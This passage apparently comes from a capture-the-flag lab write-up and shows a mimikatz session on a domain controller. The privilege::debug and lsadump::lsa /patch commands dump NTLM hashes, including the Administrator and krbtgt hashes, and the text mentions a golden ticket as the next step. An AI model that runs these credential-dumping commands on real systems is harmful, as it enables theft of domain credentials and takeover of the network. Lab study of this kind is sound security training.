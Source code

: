 Mimikatz has many uses along side being a great tool to dump hashes we will cover another one of those ways of using mimikatz in the next task by creating a golden ticket with mimikatz

## #1 - what is the Machine1 Password?

~~~
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 

mimikatz # privilege::debug 
Privilege '20' OK 

mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe 

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0 

RID  : 00000453 (1107)
User : SQLService
LM   :
NTLM : f4ab68f27303bcb4024650d8fc5f973a 

RID  : 00000454 (1108)
User : POST
LM   :
NTLM : c4b0e1b10c7ce2c4723b4e2407ef81a2

RID  : 00000457 (1111) 
User : sshd
LM   :
~~~